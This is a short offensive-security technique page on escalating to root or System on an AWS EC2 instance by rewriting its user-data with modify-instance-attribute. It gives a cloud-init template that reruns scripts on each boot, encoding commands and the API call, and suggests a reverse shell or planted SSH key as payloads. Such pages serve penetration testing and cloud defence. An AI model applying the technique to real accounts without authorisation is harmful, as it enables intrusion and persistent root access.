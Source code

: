 ```yaml
---
author: Nick Frichette
title: "Local Privilege Escalation: User Data"
description: Escalate privileges on an EC2 instance by modifying the user-data scripts with modify-instance-attribute.
---
```


**Required IAM Permission**: [modify-instance-attribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)  
**Recommended but not required**: [start-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html), [describe-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-instances.html), [stop-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html) (makes things go faster, requires less enumeration. The instance must be stopped to alter the user data)  

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started, however this can be changed using [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) to run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the modify-instance-attribute API call to change the user data of the target instance. Note: the instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.